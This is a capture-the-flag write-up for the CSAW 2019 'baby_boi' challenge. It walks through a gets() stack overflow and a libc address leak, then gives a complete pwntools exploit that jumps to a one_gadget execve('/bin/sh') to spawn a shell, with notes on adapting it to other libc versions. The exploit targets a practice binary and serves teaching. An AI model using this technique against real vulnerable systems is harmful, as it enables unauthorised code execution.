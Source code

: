 # Csaw 2019 Babyboi

Let's take a look at the binary, libc file, and source code. For this challenge we do get a copy of it:

```
$    file baby_boi
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
$    pwn checksec baby_boi
[*] '/Hackery/pod/modules/8-bof_dynamic/csaw19_babyboi/baby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./libc-2.27.so
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.3.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
$    ./baby_boi
Hello!
Here I am: 0x7f995049c830
15935728
$    cat baby_boi.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

So we can see that the binary just prompts us for text. Looking at the source code, we see that it prints the libc address for `printf`. After that it calls `gets` on a fixed sized buffer, which gives us a buffer overflow. We can see that the `libc` version is `libc-2.27.so `. Also the only binary protection we see is NX.

## Exploitation

So to exploit this, we will use the buffer overflow. We will call a oneshot gadget, which is a single ROP gadget in the libc that will call `execve("/bin/sh")` given the right conditions. We can find this using the `one_gadget` utility (https://github.com/david942j/one_gadget):

```
$    one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

So leveraging the libc infoleak with the `printf` statement to the libc `printf` (and that we know which libc version it is), we know the address space of the libc. For which onegadget to pick, I typically just do trial and error to see what conditions will work. You can actually check when it is called to see what conditions will be met however.

## Exploit

Putting it all together, we have the following exploit. This was ran on `Ubuntu 18.04`:

```
from pwn import *

# Establish the target
target = process('./baby_boi', env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF('libc-2.27.so')
#gdb.attach(target)

print target.recvuntil("ere I am: ")

# Scan in the infoleak
leak = target.recvline()
leak = leak.strip("\n")

base = int(leak, 16) - libc.symbols['printf']

print "wooo:" + hex(base)

# Calculate oneshot gadget
oneshot = base + 0x4f322

payload = ""
payload += "0"*0x28         # Offset to oneshot gadget
payload += p64(oneshot)     # Oneshot gadget

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run the exploit:

```
$    python exploit.py
[+] Starting local process './baby_boi': pid 12693
[*] '/home/guyinatuxedo/Desktop/babyboi/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Hello!
Here I am:
wooo:0x7fe0eb22e000
[*] Switching to interactive mode
$ w
 21:29:32 up 57 min,  1 user,  load average: 0.17, 0.26, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16Sep19 ?xdm?  47.39s  0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
baby_boi  baby_boi.c  exploit.py  libc-2.27.so    readme.md
```

## Are you getting a Segmentation fault?

Your system might not be compatible with the provided `libc` version, but you can still craft your own exploit for your `libc` version.

1. Figure out your `libc` path:

```bash
$ ldd ./baby_boi

  linux-vdso.so.1 =>  (0x00007fff3e1f3000)
  libc.so.6 => /lib/libc.so.6 (0x00007f621f162000)
  /lib64/ld-linux-x86-64.so.2 (0x00007f621f504000)
```

We can see that our `libc` sits in `/lib/libc.so.6`

2. Now we can find the `one_gadget` for your `libc` version:

```bash
$ one_gadget /lib/libc.so.6
```

3. Finally replace the exploit with your `libc` path and the new address found through the `one_gadget`.
